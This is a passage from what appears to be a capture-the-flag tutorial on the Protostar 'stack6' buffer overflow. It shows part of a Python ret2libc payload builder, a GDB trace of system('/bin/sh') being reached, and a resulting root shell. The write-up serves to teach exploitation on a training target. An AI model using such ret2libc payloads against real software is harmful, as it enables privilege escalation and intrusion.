 ```
    payload += struct.pack("I", string_addr)
    print payload

build()
```

Now we have our script, let's try to exploit this overflow with our newly crafted ret2libc payload:

```
$ python /tmp/stack6.py | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`췿c��
$ 
```

It looks like our shell is instantly exiting like last time. To confirm our system call is being executed correctly we can step through the exploit in GDB. If we break on the gets() function, similar to before, and then step through instructions with 'ni', we eventually see a call to system() with our argument:

```
(gdb) 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`췿c��
23	in stack6/stack6.c
(gdb) 
0x080484f9 in getpath () at stack6/stack6.c:23
23	in stack6/stack6.c
(gdb) ni
__libc_system (line=0xb7fb63bf "/bin/sh") at ../sysdeps/posix/system.c:179
179	../sysdeps/posix/system.c: No such file or directory.
	in ../sysdeps/posix/system.c
```

Now we can see this is actually being called with our "/bin/sh" argument, let's try the 'cat' trick outside of GDB similar to the stack5 challenge:

```
$ (python /tmp/stack6.py; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`췿c��
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

This is awesome! We have now completed a ret2libc challenge, which had a specific limitation on the return address. Not only that, but we wrote a little script to generate the payload and we calculated offsets and learnt how to find base addresses and including  libraries. Only one more stack challenge left of the series!